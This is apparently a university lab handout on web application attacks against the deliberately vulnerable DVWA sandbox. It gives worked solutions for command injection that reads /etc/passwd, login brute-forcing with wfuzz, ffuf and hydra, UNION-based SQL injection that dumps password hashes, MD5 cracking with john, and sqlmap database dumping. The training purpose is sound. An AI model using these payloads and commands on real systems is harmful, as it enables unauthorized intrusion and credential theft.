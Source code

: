 # PB177 – Web Application Attacks – Part I

[[_TOC_]]

## Learning Objectives

At the end of this lab session, you will be able to:
- understand and exploit command injection vulnerabilities,
- perform brute-force attacks on basic web authentication systems,
- conduct SQL injection attacks to retrieve sensitive data,
- crack MD5 password hashes,
- utilize command-line tools such as curl, wfuzz, hydra, and sqlmap for web application penetration testing.

## Sandbox

In this lab, you will use the [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA), an intentionally insecure web environment designed for learning and practicing web application security. DVWA provides a controlled environment where you can explore and test various web vulnerabilities. This hands-on training will help you build skills in exploiting and defending against common security issues using practical tools and techniques.

## Start the Sandbox

1. Update the repository by running `git pull` in `labs` directory. Go to `5` directory.
1. Login to get access to Podman images: `podman login gitlab.fi.muni.cz:5050`.
1. Run `podman-compose pull` to download images used in this lab.
1. Run `podman-compose up -d`.
1. [Check you can access Kali container using terminal and RDP](../1/index.md#start-the-sandbox). This lab uses three containers, `podman-compose ps -q | wc -l` should display `3`.
1. You can access the DVWA web interface on your desktop by opening a web browser and navigating to http://localhost:4280/.
1. **Setup the DVWA DB: go to http://10.0.0.10/setup.php and click the "Create / Reset Database" button. You should see "Setup successful!".** 

## Web Attacks

### Task: Command Injection

In this task, you will exploit the DVWA page by targeting input fields with insufficient protection. Start with [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) at the *Command Injection* tab.

On this page, you will find a simple input box meant for pinging a device (use target IP 10.0.0.254). Your goal is to experiment by entering commands that not only perform the intended `ping` but also execute unauthorized commands, such as displaying the contents of the `/etc/passwd` file.

* Navigate to http://10.0.0.10/vulnerabilities/exec/
* Craft an input to display the contents of the /etc/passwd file.
* Identify the User ID of the user with the username **games**.

<details>
<summary>
Source code and chaining commands
</summary>

 * Think how this service could be *implemented* in the backend (use **View Source** at the bottom of the Command Injection page).
 ```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target );
 ```
 * Think about how to *chain shell commands* in Linux (use **View Help** at the bottom of the Command Injection page).
```shell-session
root@attacker:~# ping -c 1 10.0.0.254 && echo "Host is ONLINE" || echo "Host is OFFLINE"
```
</details>

<details>
<summary>
What is the format of /etc/passwd file?
</summary>

 * The format of /etc/passwd is: **`Username:Password:UserID:GroupID...`**
</details>

<details>
<summary>
Solution
</summary>

You should enter **10.0.0.254; cat /etc/passwd** to get the contents of /etc/passwd file.
Enter the following command to retrieve the contents of the /etc/passwd file:
```
10.0.0.254; cat /etc/passwd
```
Executing this input should display the file contents.

```shell-session
PING 10.0.0.254 (10.0.0.254) 56(84) bytes of data.
64 bytes from 10.0.0.254: icmp_seq=1 ttl=64 time=0.135 ms
64 bytes from 10.0.0.254: icmp_seq=2 ttl=64 time=0.157 ms
64 bytes from 10.0.0.254: icmp_seq=3 ttl=64 time=0.040 ms
64 bytes from 10.0.0.254: icmp_seq=4 ttl=64 time=0.179 ms

--- 10.0.0.254 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3105ms
rtt min/avg/max/mdev = 0.040/0.127/0.179/0.053 ms
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

The format of /etc/passwd is: **`Username:Password:User ID: Group ID...`**

`games:x:` **`5`** `:60:games:/usr/games:/usr/sbin/nologin`


The UserID is: **5**

Attacker command line solution

```shell-session
root@attacker:~# curl -s http://10.0.0.10:80/vulnerabilities/exec/ -X POST --data-raw 'ip=10.0.0.254;cat /etc/passwd&Submit=Submit' | lynx -nolist -dump -stdin | grep games
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```
</details>

Watch [this video](https://www.youtube.com/watch?v=8HBwuT5LXvM) on how command injection works in DVWA if you need further understanding. An advanced description (recommended reading) of various command injection techniques is available [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection).

### Task: Brute Force Using curl and wfuzz

In this task, you will brute force web application authentication. These attacks are usually sent via GET and POST requests to the server. Start with [Brute Force attack](https://owasp.org/www-community/attacks/Brute_force_attack) at the *Brute Force* tab.

* Navigate to http://10.0.0.10/vulnerabilities/brute/
  - What is the **type** of **request**?
  - How are the **log in parameters** handled?
* Try logging in to the Firefox browser as the user **admin** and guessing the password. Use the Firefox built-in functionality `Tools -> Browser Tools -> Web Developer Tools` to analyze the network traffic.
* Prepare a dictionary file on your attack machine. Use the [wordlist.txt](./wordlist.txt) to log in to the website.
* Use the [wfuzz](https://wfuzz.readthedocs.io/en/latest/) tool to brute force the web login using the wordlist.

<details>
<summary>
What is the HTTP request to login to the web site?
</summary>

* Web site is using a GET method to request login data.
```shell-session
root@attacker:~# curl -s http://10.0.0.10:80/vulnerabilities/brute/ | grep -A 8 'method='
		<form action="#" method="GET">
			Username:<br />
			<input type="text" name="username"><br />
			Password:<br />
			<input type="password" AUTOCOMPLETE="off" name="password"><br />
			<br />
			<input type="submit" value="Login" name="Login">

		</form>
```

* The target URL is **http://10.0.0.10:80/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login**

```shell-session
root@attacker:~# curl -s -v 'http://10.0.0.10:80/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login' > /dev/null
*   Trying 10.0.0.10:80...
* Connected to 10.0.0.10 (10.0.0.10) port 80
> GET /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login HTTP/1.1
> Host: 10.0.0.10
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 14 Nov 2024 14:40:17 GMT
< Server: Apache/2.4.62 (Debian)
< X-Powered-By: PHP/8.3.13
< Set-Cookie: security=low; path=/
< Set-Cookie: PHPSESSID=439426a32a852fe4f2ea119c2fff2222; expires=Fri, 15 Nov 2024 14:40:17 GMT; Max-Age=86400; path=/
< Expires: Tue, 23 Jun 2009 12:00:00 GMT
< Cache-Control: no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 4288
< Content-Type: text/html;charset=utf-8
<
{ [4288 bytes data]
* Connection #0 to host 10.0.0.10 left intact
```
</details>

<details>
<summary>
Solution for performing brute force attack with wfuzz
</summary>

Performe brute force using wfuzz

```shell-session
root@attacker:~# wfuzz -z file,wordlist.txt 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login
Total requests: 5

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000003:   200        109 L    251 W      4288 Ch     "12345"
000000002:   200        109 L    251 W      4288 Ch     "root"
000000004:   200        109 L    255 W      4326 Ch     "password"
000000005:   200        109 L    251 W      4288 Ch     "qwerty"
000000001:   200        109 L    251 W      4288 Ch     "admin"

```

Look at the size of the website's response. After a successful login using the correct password, the website's response is larger (4326 characters).

Verify the login using curl and lynx

```shell-session
root@attacker:~# curl -s 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=password&Login=Login' | lynx -nolist -dump -stdin
```

and you should see

```shell-session
Vulnerability: Brute Force

Login

   Username:
   ____________________
   Password:
   ____________________
   Login

   Welcome to the password protected area admin
   [admin.jpg]
```

Now that we know the website's response after a successful login, we'll adjust the wfuzz parameters to identify and display only the valid user password. Use the `--ss` option to set the regex and show responses that contain the message: **Welcome to the password-protected area**.

```shell-session
root@attacker:~# wfuzz --ss "Welcome to the password protected area" -z file,wordlist.txt 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login
Total requests: 5

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000004:   200        109 L    255 W      4326 Ch     "password"

```

In the next step, we will use a similar approach to filter out incorrect login attempts by targeting responses with the message: **Username and/or password incorrect**. Use the `--hs` option to set the regex and exclude these responses.

```shell-session
root@attacker:~# wfuzz --hs "Username and/or password incorrect" -z file,wordlist.txt 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login
Total requests: 5

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000004:   200        109 L    255 W      4326 Ch     "password"

```

</details>


<details>
<summary>
Bonus task - performing brute force attack with ffuf
</summary>

[ffuf](https://github.com/ffuf/ffuf) works similarly to `wfuzz`, making it a reliable choice for web fuzzing. In this bonus task, we’ll walk through two examples using regex filters in `ffuf` to handle login scenarios, showing how to leverage both success and failure messages during website authentication.

Perform brute force using `ffuf` and use the failure message (regex set with `-fr` option).

```shell-session
root@attacker:~# ffuf -w wordlist.txt -fr "Username and/or password incorrect." -u 'http://10.0.0.10:80/vulnerabilities/brute/index.php?username=admin&password=FUZZ&Login=Login'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.10:80/vulnerabilities/brute/index.php?username=admin&password=FUZZ&Login=Login
 :: Wordlist         : FUZZ: /root/wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Username and/or password incorrect.
________________________________________________

password                [Status: 200, Size: 4326, Words: 178, Lines: 110, Duration: 4ms]
```

Perform brute force using `ffuf` and use the success message (regex set with `-mr` option).

```shell-session
root@attacker:~# ffuf -w wordlist.txt -mr "Welcome to the password protected area" -u 'http://10.0.0.10:80/vulnerabilities/brute/index.php?username=admin&password=FUZZ&Login=Login'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.10:80/vulnerabilities/brute/index.php?username=admin&password=FUZZ&Login=Login
 :: Wordlist         : FUZZ: /root/wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Welcome to the password protected area
________________________________________________

password                [Status: 200, Size: 4326, Words: 178, Lines: 110, Duration: 5ms]
```

</details>

### Task: Brute Force Using hydra

In this task, you will perform a similar process to the previous task but using the `hydra` tool.

If you have never used hydra before, a quick [tutorial](https://www.youtube.com/watch?v=YrMNih3Z-4Y) is available to get you familiar. For detailed information on the **http-get-form** brute force type of attack, use `hydra -U http-get-form`. You can also visit hydra's official [website](https://www.kali.org/tools/hydra/) for more comprehensive documentation.

Focus on these key points:

* How to specify a target user (or multiple users) for brute-forcing their password.
* How to provide a file containing the passwords to be tested during the attack.
* The required parameters for running the command with the http-get-form type.

<details>
<summary>
Analyze the server response and how the server responds when an incorrect password is used.
</summary>

 * Use `curl` to make login attempt with incorrect password. Look for unique messages, status codes, or elements in the response body that indicate a failed login.

 ```shell-session
root@attacker:~# curl -s 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=WRONG-PASSWORD&Login=Login' | lynx -nolist -dump -stdin

Vulnerability: Brute Force

Login

   Username:
   ____________________
   Password:
   ____________________
   Login
Username and/or password incorrect.

```
* The web server returns a unique error message **Username and/or password incorrect.**
</details>

<details>
<summary>
Specify the success or failure condition using the http-get-form parameters.
</summary>

 * `//10.0.0.10:80/vulnerabilities/brute/` : The login page.
 * `username=^USER^&password=^PASS^&Login=Login` : The form fields used for submitting login credentials (username and password).
 * `F=Invalid password message` : The failure condition, specified by the message seen in the server's response.
 * `S=Correct password message` : The success condition, specified by the message seen in the server's response.

 All these options are combined into a single command as follows:
* `http-get-form://URL:username=^USER^&password=^PASS^&Login=Login:F=TEXT`

</details>

<details>
<summary>
Solution
</summary>

Perform brute force using Hydra and use the failure condition.

```shell-session
root@attacker:~# hydra -l admin -P wordlist.txt 'http-get-form://10.0.0.10:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-16 10:38:22
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:1/p:5), ~1 try per task
[DATA] attacking http-get-form://10.0.0.10:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.
[80][http-get-form] host: 10.0.0.10   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-16 10:38:22
```

Perform brute force using Hydra and use the success condition.

```shell-session
root@attacker:~# hydra -l admin -P wordlist.txt 'http-get-form://10.0.0.10:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area admin'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-16 10:43:25
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:1/p:5), ~1 try per task
[DATA] attacking http-get-form://10.0.0.10:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area admin
[80][http-get-form] host: 10.0.0.10   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-16 10:43:25
```

Verify the login using curl and lynx

```shell-session
root@attacker:~# curl -s 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=password&Login=Login' | lynx -nolist -dump -stdin
```

</details>

### Task: SQL Injection

In this task, you will use [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection) to read sensitive data from the database. A comprehensive description of various command injection techniques is available [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection). Start with injection at the *SQL Injection* tab.

* Navigate to http://10.0.0.10/vulnerabilities/sqli/
* Identify vulnerable entry points.
* Use various SQL injection techniques to explore and retrieve data.

There are five users in the database, with id's from 1 to 5. Your mission is to steal their passwords via SQL injection. The SQL query uses raw input that is directly controlled by you. All you need to do is escape the query, allowing you to execute any SQL query you wish.

The DVWA source code uses the following SQL query to read first and last names.

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

<details>
<summary>
Show first and last names of users with IDs 1 to 5.
</summary>

 * Use the Firefox browser or `curl` to read users' first and last names by entering the respective number in each query.

 ```shell-session
root@attacker:~# curl -s "http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit" | lynx -nolist -dump -stdin

Vulnerability: SQL Injection

   User ID: _______________ Submit
ID: 1
First name: admin
Surname: admin

```
</details>

<details>
<summary>
Show all first and last names using a single query.
</summary>

 * Use the Firefox browser or `curl` to request all first and last names using the following query: **1' OR '2'='2**

 ```shell-session
root@attacker:~# curl -s --get --data-urlencode "id=1' OR '2'='2" http://10.0.0.10:80/vulnerabilities/sqli/?Submit=Submit | lynx -nolist -dump -stdin

Vulnerability: SQL Injection

   User ID: _______________ Submit
ID: 1' OR '2'='2
First name: admin
Surname: admin
ID: 1' OR '2'='2
First name: Gordon
Surname: Brown
ID: 1' OR '2'='2
First name: Hack
Surname: Me
ID: 1' OR '2'='2
First name: Pablo
Surname: Picasso
ID: 1' OR '2'='2
First name: Bob
Surname: Smith

```
 * Propose and test multiple always-true SQL statements to list all first and last names in the database (e.g, `' OR 1=1 -- COMMENT`).
</details>

<details>
<summary>
Extract the user names and passwords stored in the database.
</summary>

 * Use the Firefox browser or `curl` to extract the user names and passwords stored in the database using the following query: **'UNION SELECT user, password FROM users #**

 ```shell-session
root@attacker:~# curl -s --get --data-urlencode "id='UNION SELECT user, password FROM users #" http://10.0.0.10:80/vulnerabilities/sqli/?Submit=Submit | lynx -nolist -dump -stdin

Vulnerability: SQL Injection

   User ID: _______________ Submit
ID: 'UNION SELECT user, password FROM users #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: 'UNION SELECT user, password FROM users #
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: 'UNION SELECT user, password FROM users #
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: 'UNION SELECT user, password FROM users #
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: 'UNION SELECT user, password FROM users #
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
</details>

<details>
<summary>
Crack the hashes to obtain the passwords in plaintext.
</summary>

 * Create the password file using the extracted usernames and MD5 hashes from the database.
```shell-session
root@attacker:~# cat passwords.txt
admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99
```
 * Crack the passwords using known wordlist.
```shell-session
root@attacker:~# john --format=raw-md5 --wordlist=/usr/share/wordlists/sqlmap.txt passwords.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
abc123           (gordonb)
charley          (1337)
letmein          (pablo)
password         (admin)
4g 0:00:00:00 DONE (2024-11-16 18:33) 80.00g/s 24760Kp/s 24760Kc/s 65556KC/s passmenow..pastoor1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
  * Show the discovered passwords; it is worth noting that the users 'admin' and 'smithy' are using the same password.
```shell-session
root@attacker:~# john --show --format=Raw-MD5 passwords.txt
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password

5 password hashes cracked, 0 left
```
 * Verify the login using hydra

```shell-session
root@attacker:~# john --show --format=Raw-MD5 passwords.txt | grep : | cut -d ':' -f 1 > userlist.txt
root@attacker:~# john --show --format=Raw-MD5 passwords.txt | grep : | cut -d ':' -f 2 | sort | uniq > passlist.txt
root@attacker:~# hydra -L userlist.txt -P passlist.txt 'http-get-form://10.0.0.10:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-16 19:03:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking http-get-form://10.0.0.10:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.
[80][http-get-form] host: 10.0.0.10   login: gordonb   password: abc123
[80][http-get-form] host: 10.0.0.10   login: admin   password: password
[80][http-get-form] host: 10.0.0.10   login: 1337   password: charley
[80][http-get-form] host: 10.0.0.10   login: pablo   password: letmein
[80][http-get-form] host: 10.0.0.10   login: smithy   password: password
1 of 1 target successfully completed, 5 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-16 19:03:46
```
</details>

<details>
<summary>
Retrieve metadata about the database, server, and user environment.
</summary>

 * Use the Firefox browser or `curl` to Retrieve metadata about the database, server, session, and user environment using the following [Information Functions](https://mariadb.com/kb/en/information-functions/):
   * `SELECT DATABASE();` – displays the name of the current database.
   * `SELECT VERSION();` – retrieves the SQL server version.
   * `SELECT USER();` – shows the current user logged into the database.

 ```shell-session
root@attacker:~# curl -s --get --data-urlencode "id=' UNION SELECT NULL, DATABASE() -- " http://10.0.0.10:80/vulnerabilities/sqli/?Submit=Submit | lynx -dump -stdin | grep Surname
Surname: dvwa
root@attacker:~# curl -s --get --data-urlencode "id=' UNION SELECT NULL, VERSION() -- " http://10.0.0.10:80/vulnerabilities/sqli/?Submit=Submit | lynx -dump -stdin | grep Surname
Surname: 10.11.10-MariaDB-ubu2204
root@attacker:~# curl -s --get --data-urlencode "id=' UNION SELECT NULL, USER() -- " http://10.0.0.10:80/vulnerabilities/sqli/?Submit=Submit | lynx -dump -stdin | grep Surname
Surname: dvwa@10.0.0.10
```
</details>

### Task: SQL Injection Using sqlmap

In this task, you will perform a similar process to the previous task but using the `sqlmap` tool.

If you have never used sqlmap before, a [tutorial](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLmap.md) is available to get you familiar. You can also visit sqlmap's official [website](https://sqlmap.org/) for more comprehensive documentation.

<details>
<summary>
Test SQL injection on GET parameter 'id'.
</summary>

 * Use `sqlmap` to identify the injection point(s).
 ```shell-session
root@attacker:~# sqlmap -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit'
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:00:32 /2024-11-17/

[10:00:32] [INFO] testing connection to the target URL
...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 154 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 4279=4279#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 7486 FROM(SELECT COUNT(*),CONCAT(0x717a717a71,(SELECT (ELT(7486=7486,1))),0x716b6b7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nBQx&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4752 FROM (SELECT(SLEEP(5)))yTyH)-- cWrW&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x717a717a71,0x79614f4f754f6676424b6e71466d466e7351664f557462674c754e68526a624b4b5764434a6a5543,0x716b6b7071)#&Submit=Submit
---
[10:00:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62, PHP 8.3.13
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
 ```
</details>

<details>
<summary>
Retrieve current database name.
</summary>

 * Use `--current-db` option to retrieve current database name.
 ```shell-session
root@attacker:~# sqlmap -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' --current-db
...
[10:09:08] [INFO] fetching current database
[10:09:08] [WARNING] reflective value(s) found and filtering out
current database: 'dvwa'

 ```
</details>

<details>
<summary>
Enumerate 'dvwa' database tables.
</summary>

 * Use `--tables` and  `-D` options to enumerate `dvwa` database tables.
 ```shell-session
root@attacker:~# sqlmap -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' -D dvwa --tables
...
[10:21:13] [INFO] fetching tables for database: 'dvwa'
[10:21:13] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

 ```
</details>

<details>
<summary>
Fetch columns for table 'users' in database 'dvwa'.
</summary>

 * Use `--columns`, `-D` and  `-T` options to enumerate `users` table columns.
 ```shell-session
root@attacker:~# sqlmap -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' -D dvwa -T users --columns
...
[10:38:43] [INFO] fetching columns for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+

 ```
</details>

<details>
<summary>
Dump 'users' database table entries and obtain the passwords in plaintext.
</summary>

 * Use `--dump`, `-D` and  `-T` options to dump `users` database table entries.
 ```shell-session
root@attacker:~# sqlmap -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' -D dvwa -T users --dump
...
[10:46:28] [INFO] fetching columns for table 'users' in database 'dvwa'
[10:46:28] [INFO] fetching entries for table 'users' in database 'dvwa'
[10:46:28] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]

do you want to crack them via a dictionary-based attack? [Y/n/q]

[10:46:37] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>

[10:46:43] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]

[10:46:55] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[10:46:55] [INFO] starting 12 processes
[10:46:56] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[10:46:56] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[10:46:57] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
[10:46:58] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
Database: dvwa
Table: users
[5 entries]
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2024-11-17 09:25:29 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2024-11-17 09:25:29 | 0            |
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2024-11-17 09:25:29 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2024-11-17 09:25:29 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2024-11-17 09:25:29 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+

 ```
</details>

<details>
<summary>
Execute SQL queries on a vulnerable database.
</summary>

